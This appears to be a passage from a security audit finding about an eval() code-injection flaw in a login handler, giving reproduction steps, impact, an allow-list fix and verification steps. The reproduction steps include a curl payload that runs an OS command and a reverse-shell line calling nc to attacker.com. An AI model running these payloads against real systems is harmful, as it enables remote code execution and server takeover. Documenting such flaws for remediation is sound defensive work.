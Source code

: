             EnvVar -->|"Semi-trusted input"| VulnSink
            ReqParam -->|"External input"| VulnSink
            
            style EnvVar fill:none,stroke:#8b7355,stroke-width:2px
            style ReqParam fill:none,stroke:#cd853f,stroke-width:2px
            style VulnSink fill:none,stroke:#8b0000,stroke-width:3px
        ```

      - **Exploit Reproduction Steps:**
        ```bash
        # Step 1: Send malicious POST request
        curl -X POST http://target.com/login \
          -d "script=__import__('os').system('id')" \
          -H "Content-Type: application/x-www-form-urlencoded"

        # Step 2: Observe command execution in response
        # Expected: Command output showing user ID

        # Step 3: Escalate to reverse shell
        curl -X POST http://target.com/login \
          -d "script=__import__('subprocess').call(['nc', 'attacker.com', '4444', '-e', '/bin/bash'])"
        ```
      - **Business Impact:** Remote code execution with application privileges, full server compromise
      - **Immediate Fix:**
        ```python
        # Replace lines 47-52 in src/auth/login.py
        # OLD:
        user_code = request.POST['script']
        if user_code:
            result = eval(user_code)

        # NEW:
        allowed_scripts = ['status', 'health', 'version']
        script_name = request.POST.get('script', '').strip()
        if script_name in allowed_scripts:
            result = execute_safe_script(script_name)
        else:
            result = "Invalid script requested"
        ```
      - **Verification Steps:**
        1. Deploy fix to staging environment
        2. Test legitimate script execution still works
        3. Verify malicious payloads are blocked
        4. Confirm no eval() calls remain in codebase
